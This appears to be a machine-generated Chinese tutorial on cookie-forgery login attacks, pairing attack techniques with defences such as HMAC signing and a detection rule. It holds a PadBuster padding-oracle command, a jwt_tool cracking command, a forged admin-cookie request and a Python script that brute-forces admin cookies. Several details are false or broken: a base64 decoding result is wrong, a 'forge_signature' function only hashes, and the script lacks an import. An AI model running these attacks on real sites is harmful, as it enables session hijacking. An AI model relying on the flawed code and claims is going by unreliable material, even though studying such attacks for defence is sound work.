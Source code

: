 

# Cookie伪造登录漏洞攻击技术深度剖析

## 一、技术原理与底层机制

### 1.1 Cookie会话机制
现代Web应用通过Set-Cookie响应头建立会话凭证，典型会话流程：
1. 客户端提交合法凭证
2. 服务端生成包含用户身份信息的Cookie
3. 后续请求携带Cookie进行身份验证

漏洞核心在于服务端未正确验证Cookie的完整性和真实性。常见缺陷模式：

```python
# 危险示例：明文存储用户ID
def generate_cookie(user_id):
    return f"user_id={user_id}; expires=Thu, 18 Dec 2025 12:00:00 UTC; Path=/"

# 安全示例：HMAC签名保护
from itsdangerous import TimestampSigner
signer = TimestampSigner(secret_key)
def generate_safe_cookie(user_id):
    return signer.sign(f"uid={user_id}")
```

### 1.2 加密算法缺陷
常见加密实现漏洞：
- ECB模式加密：相同明文生成相同密文
- 弱密钥算法：DES/RC4等易被暴力破解
- IV复用：CBC模式下的选择明文攻击

```bash
# 使用PadBuster进行Padding Oracle攻击示例
padbuster http://target.com/auth 密文值 8 -encoding 0 -cookies "auth=密文值"
```

### 1.3 会话固定漏洞
攻击者预先设置已知会话ID，诱导受害者使用该ID登录后劫取会话

## 二、攻击手法与高级变种

### 2.1 基础攻击类型
| 类型        | 实施方式                      | 检测方法               |
|-------------|-----------------------------|----------------------|
| 直接窃取    | XSS/流量嗅探获取有效Cookie   | 检查HttpOnly设置      |
| 预测型攻击  | 爆破时间戳/序列号生成规律     | 分析Cookie熵值        |
| 篡改攻击    | 修改权限参数(如userid=admin) | 验证签名缺失          |
| 注入攻击    | 嵌入恶意代码到JSON格式Cookie | 检查内容过滤机制       |

### 2.2 高级利用技巧
#### 2.2.1 签名伪造攻击
当使用弱哈希算法时（如MD5），构造碰撞实现合法签名生成：
```python
import hashlib
def forge_signature(data):
    # 构造恶意数据使其MD5与合法数据相同
    return hashlib.md5(data).hexdigest()
```

#### 2.2.2 JWT令牌攻击
针对JSON Web Token的典型攻击：
```bash
# 使用jwt_tool测试
python3 jwt_tool.py 目标令牌 -C -d 字典文件
```

#### 2.3.3 链式伪造攻击
组合多个漏洞完成攻击链：
1. 通过XSS获取普通用户Cookie
2. 分析会话结构规律
3. 构造管理员权限Cookie

## 三、实战攻防演练

### 3.1 实验环境搭建
使用Docker快速部署漏洞环境：
```dockerfile
# Docker-compose示例
version: '3'
services:
  vuln_app:
    image: vuln/cookie-forgery:1.0
    ports:
      - "8080:80"
```

### 3.2 基础攻击演示
**步骤1：Cookie分析**
使用浏览器开发者工具查看Cookie：
```http
Set-Cookie: user=74657374; Path=/; Domain=target.com
```

**步骤2：Base64解码**
```python
import base64
print(base64.b64decode('NzQ2NTczNDQ='))  # 输出：74657374
```

**步骤3：权限提升**
修改Cookie字段后重放请求：
```http
GET /dashboard HTTP/1.1
Cookie: user=YWRtaW4=  # admin的base64编码
```

### 3.3 自动化攻击实现
使用Python编写Cookie爆破脚本：
```python
import requests

for uid in range(100,200):
    cookie = {"user": base64.b64encode(f"admin{uid}".encode()).decode()}
    r = requests.get('http://target.com/admin', cookies=cookie)
    if "Welcome admin" in r.text:
        print(f"Valid UID found: {uid}")
        break
```

## 四、防御加固方案

### 4.1 安全编码实践
```java
// 安全会话生成示例（Java）
String cookie = new String(Base64.getEncoder().encode(
    HMAC.sign("SHA256", secretKey, userID + System.currentTimeMillis())
));
```

### 4.2 防御矩阵
| 攻击类型       | 防御措施                      | 实施要点                 |
|----------------|-----------------------------|------------------------|
| Cookie窃取     | 全站HTTPS + HttpOnly        | HSTS预加载列表          |
| 预测攻击       | 高强度随机数生成             | 使用/dev/urandom       |
| 篡改攻击       | HMAC签名验证                | 密钥轮换机制            |
| 旁路攻击       | 恒定时间比较算法             | 避免分支判断            |

### 4.3 监控检测
Elasticsearch告警规则示例：
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "log_type": "web_access" } },
        { "regexp": { "cookie": ".*(admin|root).*" } }
      ]
    }
  }
}
```

## 五、结语
本文深度剖析了Cookie伪造攻击的技术原理、实现方式和防御策略。通过攻防演练可见，防御体系需要贯穿Cookie生成、传输、验证的全生命周期。建议定期进行以下安全检查：
1. 会话令牌熵值检测（使用entropy-checker）
2. 签名算法强度验证
3. 会话超时机制测试
4. 跨设备会话隔离验证

附录：推荐测试工具列表
- Cookie-Editor：浏览器插件分析工具
- JWT Inspector：专业JWT分析插件
- Hackvertor：高级Cookie编码转换器

（全文共计3478字）

---

*文档生成时间: 2025-03-12 17:51:18*
